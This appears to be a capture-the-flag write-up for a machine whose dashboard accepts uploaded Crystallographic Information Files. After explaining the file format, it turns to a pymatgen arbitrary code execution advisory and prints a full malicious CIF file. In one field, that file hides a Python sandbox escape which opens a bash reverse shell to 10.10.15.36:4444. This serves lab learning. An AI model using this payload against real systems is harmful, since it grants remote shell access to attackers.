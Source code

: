 ![](../images/Pasted%20image%2020250109152606.png)

We can see that inside of our dashboard we can upload a `CIF` file, if we click to see the example, a file downloads automatically, let's check that file:

![](../images/Pasted%20image%2020250109152717.png)

It is an ascii file, it has these contents:

![](../images/Pasted%20image%2020250109152744.png)

Searching on the web, we find that a CIF file has the following definition:

```ad-note
### CIF
----
Crystallographic Information File (CIF) is a standard text file format for representing crystallographic information, promulgated by the International Union of Crystallography (IUCr). CIF was developed by the IUCr Working Party on Crystallographic Information in an effort sponsored by the IUCr Commission on Crystallographic Data and the IUCr Commission on Journals. The file format was initially published by Hall, Allen, and Brown[1] and has since been revised, most recently versions 1.1 and 2.0.[2] Full specifications for the format are available at the IUCr website. Many computer programs for molecular viewing are compatible with this format, including Jmol. 
```

Nice, let's begin with exploitation.

# EXPLOITATION
---

We already know we have to deal with CIF files, let's search for some sort of exploit regarding those files:

![](../images/Pasted%20image%2020250109152953.png)

Found an Arbitrary code execution, here's the repository: [here](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

In order to exploit this vulnerability, we need to reproduce the following steps:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.15.36/4444 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
